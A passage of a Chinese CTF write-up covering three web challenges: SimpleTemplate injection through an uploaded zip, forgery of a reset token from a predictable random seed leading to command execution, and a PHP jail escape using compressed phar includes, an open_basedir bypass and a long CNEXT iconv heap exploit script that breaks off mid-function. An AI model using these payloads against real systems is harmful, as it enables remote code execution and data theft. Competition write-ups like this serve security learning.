










这次我们第二名，大家太强了，彦门万岁！

这里是我个人的wp，这次Web我做了5题，所以这里就只写我自己做的题目。
ez_bottle
关键代码
1@post('/upload')
2def upload():
3 zip_file = request.files.get('file')
4 if not zip_file or not zip_file.filename.endswith('.zip'):
5 return 'Invalid file. Please upload a ZIP file.'
6
7 if len(zip_file.file.read()) > MAX_FILE_SIZE:
8 return 'File size exceeds 1MB. Please upload a smaller ZIP file.'
9
10 zip_file.file.seek(0)
11
12 current_time = str(time.time())
13 unique_string = zip_file.filename + current_time
14 md5_hash = hashlib.md5(unique_string.encode()).hexdigest()
15 extract_dir = os.path.join(UPLOAD_DIR, md5_hash)
16 os.makedirs(extract_dir)
17
18 zip_path = os.path.join(extract_dir, 'upload.zip')
19 zip_file.save(zip_path)
20
21 try:
22 with zipfile.ZipFile(zip_path, 'r') as z:
23 for file_info in z.infolist():
24 if is_symlink(file_info):
25 return 'Symbolic links are not allowed.'
26
27 real_dest_path = os.path.realpath(os.path.join(extract_dir, file_info.filename))
28 if not is_safe_path(extract_dir, real_dest_path):
29 return 'Path traversal detected.'
30
31 z.extractall(extract_dir)
32 except zipfile.BadZipFile:
33 return 'Invalid ZIP file.'
34
35 files = os.listdir(extract_dir)
36 files.remove('upload.zip')
37
38 return template("文件列表: {{files}}\n访问: /view/{{md5}}/{{first_file}}",
39 files=", ".join(files), md5=md5_hash, first_file=files[0] if files else "nofile")
40
41@route('/view/<md5>/<filename>')
42def view_file(md5, filename):
43 file_path = os.path.join(UPLOAD_DIR, md5, filename)
44 if not os.path.exists(file_path):
45 return "File not found."
46
47 with open(file_path, 'r', encoding='utf-8') as f:
48 content = f.read()
49
50 if contains_blacklist(content):
51 return "you are hacker!!!nonono!!!"
52
53 try:
54 return template(content)
55 except Exception as e:
56 return f"Error rendering template: {str(e)}"
上传一个zip，他会解压并显示文件列表，并且可以查看文件内容
打 SimpleTemplate 模板渲染，直接把flag复制到静态目录
1% import shutil;shutil.copy('/flag', 'static/flag')
2% end

访问带有payload的文件，代码执行拿到flag

Ekko_note
源码
1# -*- encoding: utf-8 -*-
2'''
3@File : app.py
4@Time : 2066/07/05 19:20:29
5@Author : Ekko exec inc. 某牛马程序员
6'''
7import os
8import time
9import uuid
10import requests
11
12from functools import wraps
13from datetime import datetime
14from secrets import token_urlsafe
15from flask_sqlalchemy import SQLAlchemy
16from werkzeug.security import generate_password_hash, check_password_hash
17from flask import Flask, render_template, redirect, url_for, request, flash, session
18
19SERVER_START_TIME = time.time()
20
21# 欸我艹这两行代码测试用的忘记删了，欸算了都发布了，我们都在用力地活着，跟我的下班说去吧。
22# 反正整个程序没有一个地方用到random库。应该没有什么问题。
23import random
24random.seed(SERVER_START_TIME)
25
26admin_super_strong_password = token_urlsafe()
27app = Flask(__name__)
28app.config['SECRET_KEY'] = 'your-secret-key-here'
29app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///site.db'
30app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
31
32db = SQLAlchemy(app)
33
34class User(db.Model):
35 id = db.Column(db.Integer, primary_key=True)
36 username = db.Column(db.String(20), unique=True, nullable=False)
37 email = db.Column(db.String(120), unique=True, nullable=False)
38 password = db.Column(db.String(60), nullable=False)
39 is_admin = db.Column(db.Boolean, default=False)
40 time_api = db.Column(db.String(200), default='https://api.uuni.cn//api/time')
41
42class PasswordResetToken(db.Model):
43 id = db.Column(db.Integer, primary_key=True)
44 user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
45 token = db.Column(db.String(36), unique=True, nullable=False)
46 used = db.Column(db.Boolean, default=False)
47
48def padding(input_string):
49 byte_string = input_string.encode('utf-8')
50 if len(byte_string) > 6: byte_string = byte_string[:6]
51 padded_byte_string = byte_string.ljust(6, b'\x00')
52 padded_int = int.from_bytes(padded_byte_string, byteorder='big')
53 return padded_int
54
55with app.app_context():
56 db.create_all()
57 if not User.query.filter_by(username='admin').first():
58 admin = User(
59 username='admin',
60 email='admin@example.com',
61 password=generate_password_hash(admin_super_strong_password),
62 is_admin=True
63 )
64 db.session.add(admin)
65 db.session.commit()
66
67def login_required(f):
68 @wraps(f)
69 def decorated_function(*args, **kwargs):
70 if 'user_id' not in session:
71 flash('请登录', 'danger')
72 return redirect(url_for('login'))
73 return f(*args, **kwargs)
74 return decorated_function
75
76def admin_required(f):
77 @wraps(f)
78 def decorated_function(*args, **kwargs):
79 if 'user_id' not in session:
80 flash('请登录', 'danger')
81 return redirect(url_for('login'))
82 user = User.query.get(session['user_id'])
83 if not user.is_admin:
84 flash('你不是admin', 'danger')
85 return redirect(url_for('home'))
86 return f(*args, **kwargs)
87 return decorated_function
88
89def check_time_api():
90 user = User.query.get(session['user_id'])
91 try:
92 response = requests.get(user.time_api)
93 data = response.json()
94 datetime_str = data.get('date')
95 if datetime_str:
96 print(datetime_str)
97 current_time = datetime.fromisoformat(datetime_str)
98 return current_time.year >= 2066
99 except Exception as e:
100 return None
101 return None
102@app.route('/')
103def home():
104 return render_template('home.html')
105
106@app.route('/server_info')
107@login_required
108def server_info():
109 return {
110 'server_start_time': SERVER_START_TIME,
111 'current_time': time.time()
112 }
113@app.route('/register', methods=['GET', 'POST'])
114def register():
115 if request.method == 'POST':
116 username = request.form.get('username')
117 email = request.form.get('email')
118 password = request.form.get('password')
119 confirm_password = request.form.get('confirm_password')
120
121 if password != confirm_password:
122 flash('密码错误', 'danger')
123 return redirect(url_for('register'))
124
125 existing_user = User.query.filter_by(username=username).first()
126 if existing_user:
127 flash('已经存在这个用户了', 'danger')
128 return redirect(url_for('register'))
129
130 existing_email = User.query.filter_by(email=email).first()
131 if existing_email:
132 flash('这个邮箱已经被注册了', 'danger')
133 return redirect(url_for('register'))
134
135 hashed_password = generate_password_hash(password)
136 new_user = User(username=username, email=email, password=hashed_password)
137 db.session.add(new_user)
138 db.session.commit()
139
140 flash('注册成功，请登录', 'success')
141 return redirect(url_for('login'))
142
143 return render_template('register.html')
144
145@app.route('/login', methods=['GET', 'POST'])
146def login():
147 if request.method == 'POST':
148 username = request.form.get('username')
149 password = request.form.get('password')
150
151 user = User.query.filter_by(username=username).first()
152 if user and check_password_hash(user.password, password):
153 session['user_id'] = user.id
154 session['username'] = user.username
155 session['is_admin'] = user.is_admin
156 flash('登陆成功，欢迎!', 'success')
157 return redirect(url_for('dashboard'))
158 else:
159 flash('用户名或密码错误!', 'danger')
160 return redirect(url_for('login'))
161
162 return render_template('login.html')
163
164@app.route('/logout')
165@login_required
166def logout():
167 session.clear()
168 flash('成功登出', 'info')
169 return redirect(url_for('home'))
170
171@app.route('/dashboard')
172@login_required
173def dashboard():
174 return render_template('dashboard.html')
175
176@app.route('/forgot_password', methods=['GET', 'POST'])
177def forgot_password():
178 if request.method == 'POST':
179 email = request.form.get('email')
180 user = User.query.filter_by(email=email).first()
181 if user:
182 # 选哪个UUID版本好呢，好头疼 >_<
183 # UUID v8吧，看起来版本比较新
184 token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
185 reset_token = PasswordResetToken(user_id=user.id, token=token)
186 db.session.add(reset_token)
187 db.session.commit()
188 # TODO：写一个SMTP服务把token发出去
189 flash(f'密码恢复token已经发送，请检查你的邮箱', 'info')
190 return redirect(url_for('reset_password'))
191 else:
192 flash('没有找到该邮箱对应的注册账户', 'danger')
193 return redirect(url_for('forgot_password'))
194
195 return render_template('forgot_password.html')
196
197@app.route('/reset_password', methods=['GET', 'POST'])
198def reset_password():
199 if request.method == 'POST':
200 token = request.form.get('token')
201 new_password = request.form.get('new_password')
202 confirm_password = request.form.get('confirm_password')
203
204 if new_password != confirm_password:
205 flash('密码不匹配', 'danger')
206 return redirect(url_for('reset_password'))
207
208 reset_token = PasswordResetToken.query.filter_by(token=token, used=False).first()
209 if reset_token:
210 user = User.query.get(reset_token.user_id)
211 user.password = generate_password_hash(new_password)
212 reset_token.used = True
213 db.session.commit()
214 flash('成功重置密码！请重新登录', 'success')
215 return redirect(url_for('login'))
216 else:
217 flash('无效或过期的token', 'danger')
218 return redirect(url_for('reset_password'))
219
220 return render_template('reset_password.html')
221
222@app.route('/execute_command', methods=['GET', 'POST'])
223@login_required
224def execute_command():
225 result = check_time_api()
226 if result is None:
227 flash("API死了啦，都你害的啦。", "danger")
228 return redirect(url_for('dashboard'))
229
230 if not result:
231 flash('2066年才完工哈，你可以穿越到2066年看看', 'danger')
232 return redirect(url_for('dashboard'))
233
234 if request.method == 'POST':
235 command = request.form.get('command')
236 os.system(command) # 什么？你说安全？不是，都说了还没完工催什么。
237 return redirect(url_for('execute_command'))
238
239 return render_template('execute_command.html')
240
241@app.route('/admin/settings', methods=['GET', 'POST'])
242@admin_required
243def admin_settings():
244 user = User.query.get(session['user_id'])
245
246 if request.method == 'POST':
247 new_api = request.form.get('time_api')
248 user.time_api = new_api
249 db.session.commit()
250 flash('成功更新API！', 'success')
251 return redirect(url_for('admin_settings'))
252
253 return render_template('admin_settings.html', time_api=user.time_api)
254
255if __name__ == '__main__':
256 app.run(debug=False, host="0.0.0.0")
一开始发现我的uuid没有uuid8，感觉是版本问题，刚好在出题人博客看到了uuidv8的实现，就直接拿来用了

1def uuid8(a=None, b=None, c=None):
2 """Generate a UUID from three custom blocks.
3
4 * 'a' is the first 48-bit chunk of the UUID (octets 0-5);
5 * 'b' is the mid 12-bit chunk (octets 6-7);
6 * 'c' is the last 62-bit chunk (octets 8-15).
7
8 When a value is not specified, a pseudo-random value is generated.
9 """
10 if a is None:
11 a = random.getrandbits(48)
12 if b is None:
13 b = random.getrandbits(12)
14 if c is None:
15 c = random.getrandbits(62)
16
17 int_uuid_8 = (a & 0xffff_ffff_ffff) << 80
18 int_uuid_8 |= (b & 0xfff) << 64
19 int_uuid_8 |= c & 0x3fff_ffff_ffff_ffff
20 # Set version and variant flags
21 int_uuid_8 |= (8 << 76) # Version 8
22 int_uuid_8 |= (0x02 << 62) # Variant 10xx (RFC4122)
23
24 return uuid.UUID(int=int_uuid_8)
在源码中token的生成是在a位置传入username，b，c为空，但是我们可以看到b，c处生成的是伪随机数，种子是固定的，是程序的启动时间，我们可以在/server_info拿到。接下来就是伪造token去改admin密码。
生成token
1import random
2import uuid
3
4SERVER_START_TIME = 1755353838.0696628
5random.seed(SERVER_START_TIME)
6
7def padding(input_string):
8 byte_string = input_string.encode('utf-8')
9 if len(byte_string) > 6: byte_string = byte_string[:6]
10 padded_byte_string = byte_string.ljust(6, b'\x00')
11 padded_int = int.from_bytes(padded_byte_string, byteorder='big')
12 return padded_int
13
14def uuid8(a=None, b=None, c=None):
15 """Generate a UUID from three custom blocks.
16
17 * 'a' is the first 48-bit chunk of the UUID (octets 0-5);
18 * 'b' is the mid 12-bit chunk (octets 6-7);
19 * 'c' is the last 62-bit chunk (octets 8-15).
20
21 When a value is not specified, a pseudo-random value is generated.
22 """
23 if a is None:
24 a = random.getrandbits(48)
25 if b is None:
26 b = random.getrandbits(12)
27 if c is None:
28 c = random.getrandbits(62)
29
30 int_uuid_8 = (a & 0xffff_ffff_ffff) << 80
31 int_uuid_8 |= (b & 0xfff) << 64
32 int_uuid_8 |= c & 0x3fff_ffff_ffff_ffff
33 # Set version and variant flags
34 int_uuid_8 |= (8 << 76) # Version 8
35 int_uuid_8 |= (0x02 << 62) # Variant 10xx (RFC4122)
36
37 return uuid.UUID(int=int_uuid_8)
38
39token = str(uuid8(a=padding("admin")))
40print(token)
在远端也生成一下token
成功修改密码

/execute_command 会从设置的时间api获取时间

获取的时间大于2066年才可以命令执行
1from flask import Flask, jsonify
2
3app = Flask(__name__)
4
5@app.route("/")
6def fake_time():
7 return jsonify({
8 "date": "2067-01-01T12:00:00"
9 })
10
11if __name__ == "__main__":
12 app.run(host='0.0.0.0' ,port=5006)
vps起个服务
命令执行没回显，flag写静态目录

php_jail_is_my_cry
1if (isset($_GET['down'])){
2 include '/tmp/' . basename($_GET['down']);
3 exit;
4}
5
6// 上传文件
7if (isset($_FILES['file'])) {
8 $target_dir = "/tmp/";
9 $target_file = $target_dir . basename($_FILES["file"]["name"]);
10 $orig = $_FILES["file"]["tmp_name"];
11 $ch = curl_init('file://'. $orig);
12
13 // I hide a trick to bypass open_basedir, I'm sure you can find it.
14
15 curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
16 $data = curl_exec($ch);
17 curl_close($ch);
18 if (stripos($data, '<?') === false && stripos($data, 'php') === false && stripos($data, 'halt') === false) {
19 file_put_contents($target_file, $data);
20 } else {
21 echo "存在 `<?` 或者 `php` 或者 `halt` 恶意字符!";
22 $data = null;
23 }
24}
这里可以文件上传，而且可以包含tmp目录下的文件，但是文件上传有waf，不能有<?` 或者 `php` 或者 `halt。这里还有个提示说藏了个绕过open_basedir的trick，后面会用到。
前面这个跟 DeadsecCTF2025 的一道web题很像，利用了include 的一个trick，我们可以将phar文件压缩后再include，php会根据不同类型的压缩包对其进行解压后再当成phar解析。利用这个，我们就可以绕过waf，文件包含代码执行了。
1<?php
2$phar = new Phar('exploit.phar');
3$phar->startBuffering();
4
5$stub = <<< 'STUB'
6<?php
7 phpinfo();
8 __HALT_COMPILER();
9?>
10STUB;
11
12$phar->setStub($stub);
13
14$phar->addFromString('test.txt', 'test');
15
16$phar->stopBuffering();
17?>
压缩成gz文件

成功执行

但是由于disable_functions和disable_classes写的很死，没办法直接命令执行。
后面留意到了iconv的版本，发现小于2.39，可以打cnext

打cnext首先得拿maps和libc，由于open_basedir，我们只能读/var/www/html和/tmp

但是绕过open_basedir的方法题目源码给出来了，所以先读个源码
1<?php
2if (isset($_POST['url'])) {
3 $url = $_POST['url'];
4 $file_name = basename($url);
5
6 $ch = curl_init($url);
7 curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
8 $data = curl_exec($ch);
9 curl_close($ch);
10
11 if ($data) {
12 file_put_contents('/tmp/'.$file_name, $data);
13 echo "文件已下载: <a href='?down=$file_name'>$file_name</a>";
14 } else {
15 echo "下载失败。";
16 }
17}
18
19if (isset($_GET['down'])){
20 include '/tmp/' . basename($_GET['down']);
21 exit;
22}
23
24// 上传文件
25if (isset($_FILES['file'])) {
26 $target_dir = "/tmp/";
27 $target_file = $target_dir . basename($_FILES["file"]["name"]);
28 $orig = $_FILES["file"]["tmp_name"];
29 $ch = curl_init('file://'. $orig);
30 curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all"); // secret trick to bypass, omg why will i show it to you!
31 curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
32 $data = curl_exec($ch);
33 curl_close($ch);
34 if (stripos($data, '<?') === false && stripos($data, 'php') === false && stripos($data, 'halt') === false) {
35 file_put_contents($target_file, $data);
36 } else {
37 echo "存在 `<?` 或者 `php` 或者 `halt` 恶意字符!";
38 $data = null;
39 }
40}
41?>
利用这个方法把maps和libc写到web目录
maps
1<?php
2$phar = new Phar('maps.phar');
3$phar->startBuffering();
4
5$stub = <<< 'STUB'
6<?php
7 $ch = curl_init('file:///proc/self/maps');
8 curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
9 curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
10 $data = curl_exec($ch);
11 curl_close($ch);
12 file_put_contents("/var/www/html/maps", $data);
13 __HALT_COMPILER();
14?>
15STUB;
16
17$phar->setStub($stub);
18
19$phar->addFromString('test.txt', 'test');
20
21$phar->stopBuffering();
22?>
libc
1<?php
2$phar = new Phar('libc.phar');
3$phar->startBuffering();
4
5$stub = <<< 'STUB'
6<?php
7 $ch = curl_init('file:///usr/lib/x86_64-linux-gnu/libc.so.6');
8 curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
9 curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
10 $data = curl_exec($ch);
11 curl_close($ch);
12 file_put_contents("/var/www/html/libc", $data);
13 __HALT_COMPILER();
14?>
15STUB;
16
17$phar->setStub($stub);
18
19$phar->addFromString('test.txt', 'test');
20
21$phar->stopBuffering();
22?>
生成payload
1import requests
2import re
3from ten import *
4from pwn import *
5from dataclasses import dataclass
6from base64 import *
7import zlib
8from urllib.parse import quote
9
10HEAP_SIZE = 2 * 1024 * 1024
11BUG = "劄".encode("utf-8")
12
13url = "http://challenge.xinshi.fun:40793"
14command: str = "/readflag > /var/www/html/flag;"
15sleep: int = 1
16PAD: int = 20
17pad: int = 20
18info = {}
19heap = 0
20
21@dataclass
22class Region:
23 """A memory region."""
24
25 start: int
26 stop: int
27 permissions: str
28 path: str
29
30 @property
31 def size(self) -> int:
32 return self.stop - self.start
33
34# 获取 /proc/self/maps
35def get_maps():
36 data = '/maps'
37 r = requests.get(url+data).text
38 return r
39
40# 获取 libc
41def download_file(get_file , local_path):
42 data = '/libc'
43 r = requests.get(url + data,stream=True)
44 data = r.content
45 open(local_path,'wb').write(data)
46 # Path(local_path).write(data)
47
48def get_regions():
49 maps = get_maps()
50 # maps = maps.decode()
51 PATTERN = re.compile(
52 r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
53 )
54 regions = []
55 for region in table.split(maps, strip=True):
56 if match := PATTERN.match(region):
57 start = int(match.group(1), 16)
58 stop = int(match.group(2), 16)
59 permissions = match.group(3)
60 path = match.group(4)
61 if "/" in path or "[" in path:
62 path = path.rsplit(" ", 1)[-1]
63 else:
64 path = ""
65 current = Region(start, stop, permissions, path)
66 regions.append(current)
67 else:
68 print(maps)
69 # failure("Unable to parse memory mappings")
70
71 # self.log.info(f"Got {len(regions)} memory regions")
72
73 return regions
74
75# 通过 /proc/self/maps 得到 堆地址
76def find_main_heap(regions: list[Region]) -> Region:
77 # Any anonymous RW region with a size superior to the base heap size is a
78 # candidate. The heap is at the bottom of the region.
79 heaps = [
80 region.stop - HEAP_SIZE + 0x40
81 for region in reversed(regions)
82 if region.permissions == "rw-p"
83 and region.size >= HEAP_SIZE
84 and region.stop & (HEAP_SIZE - 1) == 0
85 and region.path == ""
86 ]
87
88 if not heaps:
89 failure("Unable to find PHP's main heap in memory")
90
91 first = heaps[0]
92
93 if len(heaps) > 1:
94 heaps = ", ".join(map(hex, heaps))
95 msg_info(f"Potential heaps: [i]{heaps}[/] (using first)")
96 else:
97 msg_info(f"Using [i]{hex(first)}[/] as heap")
98
99 return first
100
101def _get_region(regions: list[Region], *names: str) -> Region:
102 """Returns the first region whose name matches one of the given names."""
103 for region in regions:
104 if any(name in region.path for name in names):
105 break
106 else:
107 failure("Unable to locate region")
108
109 return region
110
111# 下载 libc 文件
112def get_symbols_and_addresses():
113 regions = get_regions()
114 LIBC_FILE = "/dev/shm/cnext-libc"
115
116 # PHP's heap
117
118 info["heap"] = heap or find_main_heap(regions)
119
120 # Libc
121
122 libc = _get_region(regions, "libc-", "libc.so")
123
124 download_file(libc.path, LIBC_FILE)
125
126 info["libc"] = ELF(LIBC_FILE, checksec=False)
127 info["libc"].address = libc.start
128
129def compress(data) -> bytes:
130 """Returns data suitable for `zlib.inflate`.
131 """
132 # Remove 2-byte header and 4-byte checksum
133 return zlib.compress(data, 9)[2:-4]
134
135def b64(data: bytes, misalign=True) -> bytes:
136 payload = b64encode(data)
137 if not misalign and payload.endswith("="):
138 raise ValueError(f"Misaligned: {data}")
139 return payload
140
141def compressed_bucket(data: bytes) -> bytes:
142 """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
143 return chunked_chunk(data, 0x8000)
144
145def qpe(data: bytes) -> bytes:
146 """Emulates quoted-printable-encode.
147 """
148 return "".join(f"={x:02x}" for x in data).upper().encode()
149
150def ptr_bucket(*ptrs, size=None) -> bytes:
151 """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
152 if size is not None:
153 assert len(ptrs) * 8 == size
154 bucket = b"".join(map(p64, ptrs))
155 bucket = qpe(bucket)
156 bucket = chunked_chunk(bucket)
157 bucket = chunked_chunk(bucket)
158 bucket = chunked_chunk(bucket)
159 bucket = compressed_bucket(bucket)
160
161 return bucket
162
163def chunked_chunk(data: bytes, size: int = None) -> bytes:
164 """Constructs a chunked representation of the given chunk. If size is given, the
165 chunked representation has size `size`.
166 For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
167 """
168 # The caller does not care about the size: let's just add 8, which is more than
169 # enough
170 if size is None:
171 size = len(data) + 8
172 keep = len(data) + len(b"\n\n")
173 size = f"{len(data):x}".rjust(size - keep, "0")
174 return size.encode() + b"\n" + data + b"\n"
175
176# 攻击 payload 的生成
177def build_exploit_path() -> str:
178 LIBC = info["libc"]
179 ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
180 ADDR_EFREE = LIBC.symbols["__libc_system"]
181 ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]
182
183 ADDR_HEAP = info["heap"]
184 ADDR_FREE_SLOT = ADDR_HEAP + 0x20
185 ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168
186
187 ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10
188
189 CS = 0x100
190
191 # Pad needs to stay at size 0x100 at every step
192 pad_size = CS - 0x18
193 pad = b"\x00" * pad_size
194 pad = chunked_chunk(pad, len(pad) + 6)
195 pad = chunked_chunk(pad, len(pad) + 6)
196 pad = chunked_chunk(pad, len(pad) + 6)
197 pad = compressed_bucket(pad)
198
199 step1_size = 1
200 step1 = b"\x00" * step1_size
201 step1 = chunked_chunk(step1)
202 step1 = chunked_chunk(step1)
203 step1 = chunked_chunk(step1, CS)
204 step1 = compressed_bucket(step1)
205
206 # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
207 # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"
208
209 step2_size = 0x48
210 step2 = b"\x00" * (step2_size + 8)
211 step2 = chunked_chunk(step2, CS)
212 step2 = chunked_chunk(step2)
213 step2 = compressed_bucket(step2)
214
215 step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
216 step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
217 step2_write_ptr = chunked_chunk(step2_write_ptr)
218 step2_write_ptr = compressed_bucket(step2_write_ptr)
219
220 step3_size = CS
221
222 step3 = b"\x00" * step3_size
223 assert len(step3) == CS
224 step3 = chunked_chunk(step3)
225 step3 = chunked_chunk(step3)
226 step3 = chunked_chunk(step3)
227 step3 = compressed_bucket(step3)
228
229 step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
230 assert len(step3_overflow) == CS
231 step3_overflow = chunked_chunk(step3_overflow)
232 step3_overflow = chunked_chunk(step3_overflow)
233 step3_overflow = chunked_chunk(step3_overflow)
234 step3_overflow = compressed_bucket(step3_overflow)
235
236 step4_size = CS
237 step4 = b"=00" + b"\x00" * (step4_size - 1)
238 step4 = chunked_chunk(step4)
239 step4 = chunked_chunk(step4)
240 step4 = chunked_chunk(step4)
241 step4 = compressed_bucket(step4)
242
243 # This chunk will eventually overwrite mm_heap->free_slot
244 # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
245 step4_pwn = ptr_bucket(
246 0x200000,
247 0,
248 # free_slot
249 0,
250 0,
251 ADDR_CUSTOM_HEAP, # 0x18
252 0,
253 0,
254 0,
255 0,
256 0,
257 0,
258 0,
259 0,
260 0,
261 0,
262 0,
263 0,
264 0,
265 ADDR_HEAP, # 0x140
266 0,
267 0,
268 0,
269 0,
270 0,
271 0,
272 0,
273 0,
274 0,
275 0,
276 0,
277 0,
278 0,
279 size=CS,
280 )
281
282 step4_custom_heap = ptr_bucket(
283 ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
284 )
285
286 step4_use_custom_heap_size = 0x140
287
288 COMMAND = command
289 COMMAND = f"kill -9 $PPID; {COMMAND}"
290 if sleep:
291 COMMAND = f"sleep {sleep}; {COMMAND}"
292 COMMAND = COMMAND.encode() + b"\x00"
293
294 assert (
295 len(COMMAND) <= step4_use_custom_heap_size
296 ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
297 COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")
298
299 step4_use_custom_heap = COMMAND
300 step4_use_custom_heap = qpe(step4_use_custom_heap)
301 step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
302 step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
303 step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
304 step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)
